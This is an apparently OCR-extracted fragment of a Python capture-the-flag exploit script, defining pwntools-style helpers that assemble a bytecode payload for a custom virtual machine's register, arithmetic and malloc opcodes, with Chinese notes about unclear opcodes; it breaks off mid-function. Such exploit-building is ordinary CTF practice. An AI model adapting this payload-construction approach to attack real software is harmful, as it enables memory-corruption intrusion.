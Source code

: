 ```python
def popreg(rip):
    global pay
    pay+=b'\xb2'+p8(rip)

#reg[idx]|=value
def reg_orvalue(idx,value):
    global pay
    pay+=b'\xb0'+b'\x01'+p8(idx)+p64(value)

#reg[idx1]|=reg[idx2]
def reg_orreg(idx1,idx2):
    global pay
    pay+=b'\xb0'+b'\x00'+p8(idx1)+p8(idx2)

def reg_addvalue(idx,value):
    global pay
    pay+=b'\x61'+b'\x01'+p8(idx)+p64(value)

def reg_addreg(idx1,idx2):
    global pay
    pay+=b'\x61'+b'\x00'+p8(idx1)+p8(idx2)

def reg_subvalue(idx,value):
    global pay
    pay+=b'\x63'+b'\x01'+p8(idx)+p64(value)

def reg_subreg(idx1,idx2):
    global pay
    pay+=b'\x63'+b'\x00'+p8(idx1)+p8(idx2)

def reg_mulvalue(idx,value):
    global pay
    pay+=b'\x65'+b'\x01'+p8(idx)+p64(value)

def reg_mulreg(idx1,idx2):
    global pay
    pay+=b'\x65'+b'\x00'+p8(idx1)+p8(idx2)

def reg_xorvalue(idx,value):
    global pay
    pay+=b'\x67'+b'\x01'+p8(idx)+p64(value)

def reg_xorreg(idx1,idx2):
    global pay
    pay+=b'\x67'+b'\x00'+p8(idx1)+p8(idx2)

def bitwise_not(idx):  #但是没有增加rip???
    global pay
    pay+=b'\x69'+p8(idx)

#free and malloc
def malloc(size):
    global pay
    pay+=b'\x14'+p32(size)

#0x13不知道在干嘛

#reg[idx]&=value
def reg_andvalue(idx,value):
    global pay
    pay+=b'\x11'+b'\x01'+p8(idx)+p64(value)

def reg_andreg(idx1,idx2):
```